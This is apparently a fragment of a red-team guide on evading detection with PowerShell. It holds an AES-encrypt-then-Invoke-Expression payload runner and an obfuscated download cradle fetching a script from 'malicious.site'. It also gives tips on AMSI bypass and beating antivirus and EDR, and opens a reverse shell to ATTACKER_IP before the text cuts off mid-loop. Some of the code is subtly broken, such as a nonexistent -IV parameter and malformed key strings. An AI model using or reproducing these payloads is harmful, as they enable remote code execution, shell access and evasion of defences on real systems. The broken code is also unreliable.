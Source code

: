 
## **Advanced Techniques**

### **1. Encryption with AES**
Use AES encryption to further obfuscate your payload. This requires a key and IV (Initialization Vector).

#### Example: AES Encryption
```powershell
# Encrypt the payload
$key = "1a2b3c4d5e6f7g8h9i0j1k2l3m4n5o6p"
$iv = "9i8h7g6f5e4d3c2b1a"
$payload = "Your malicious PowerShell script here"
$encryptedPayload = ConvertTo-SecureString -String $payload -Key $key -IV $iv

# Decrypt and execute
$decryptedPayload = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($encryptedPayload))
Invoke-Expression $decryptedPayload
```

### **2. Obfuscation with Randomization**
Randomize variable names and add junk code to confuse static analysis.

#### Example: Randomized Obfuscation
```powershell
$var1 = "New-Object"
$var2 = "Net.WebClient"
$var3 = "DownloadString"
$payload = "$var1 $var2).$var3('http://malicious.site/payload.ps1')"
Invoke-Expression $payload
```

---

## **Defensive Evasion Tips**
- Use AMSI bypass techniques (covered in the next section).
- Test your payloads against EDR and antivirus solutions.
- Use encrypted communication channels (e.g., HTTPS) for payload delivery.

---

**Disclaimer**: Use these techniques only in authorized engagements. Unauthorized use is illegal.
```

---

## **2. Creating an Encrypted Reverse Shell for Red Teams**

```markdown
# Creating an Encrypted Reverse Shell for Red Teams

A reverse shell is a critical tool for gaining control of a target system. This guide demonstrates how to create an encrypted reverse shell payload in PowerShell, ensuring it evades detection.

---

## **Step 1: Basic Reverse Shell Script**
```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP", ATTACKER_PORT)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535 | %{0}

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
```